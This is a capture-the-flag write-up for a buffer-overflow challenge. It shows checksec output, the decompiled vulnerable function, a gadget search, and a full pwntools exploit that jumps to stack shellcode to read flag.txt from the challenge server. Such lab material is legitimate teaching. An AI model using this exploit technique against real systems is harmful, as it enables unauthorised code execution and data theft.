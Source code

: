 # Pwn - SimpleOverflow
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

We start by looking at the protections of the binary.

```sh
> checksec baby_binary
[*] './baby_binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

As we can see, many protections are disabled. Amongst them, NX is disabled which means that our stack will have executable permissions. We will keep this in mind for now.

Throwing the binary into IDA, the vulnerability is straightforward.

```c
int vuln()
{
  char input[112];
  return fgets(input, 256, stdin);
}
```

Even though `checksec` mentions that Canary is enabled in the program, it does not apply to this function as we can see from the code. If there is canary in this function, the decompiled code will contain something like `_readfsqword(0x28)` at the start of the code.

Anyways, we are presented with an easily exploitable buffer overflow. Our function stack will look like this in memory

```
┌───────────────────────┐
│                       │
│       input[112]      │
│                       │
├───────────────────────┤
│                       │
│       saved rbp       │
│                       │
├───────────────────────┤
│                       │
│    return address     │
│                       │
└───────────────────────┘
```

We can overflow from `input` into `return address`, changing the execution flow of the program. In order to solve this, we can write shellcode on the stack and jump to it by using a `jmp rsp` or equivalent gadget.

We can find the gadget by using `ROPgadget`

```sh
> ROPgadget --binary ./baby_binary
# ...
0x0000000000418d92 : push rsp ; ret
# ...
```

From the given Dockerfile, we can also identify that the `flag.txt` file is in the same directory as the program. The docker also uses the `scratch` image, which does not come with any programs, thus we cannot spawn a shell by writing an `execve("/bin/sh")` shellcode.

We will simply write shellcode that **opens the flag file**, then **send the contents of the file to stdout using the `sendfile` syscall**.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF("baby_binary")
if args.REMOTE:
    p = remote('ec2-3-1-204-6.ap-southeast-1.compute.amazonaws.com', 64852)
else:
    p = elf.process()

# payload sent will look like
# b"A"*120 (padding for input + saved rbp)
# + gadget address to jmp to rsp to run shellcode that is pointed by the stack pointer
# + shellcode to be run
p.sendline(fit({
    120: 0x0000000000418d92, # push rsp; ret     <--- this is equiavlent to jmp rsp (can you figure out why?)
    128: asm(shellcraft.open("flag.txt", 0, 0)) + asm(shellcraft.sendfile(1, 3, 0, 100))
}))

p.interactive()
```
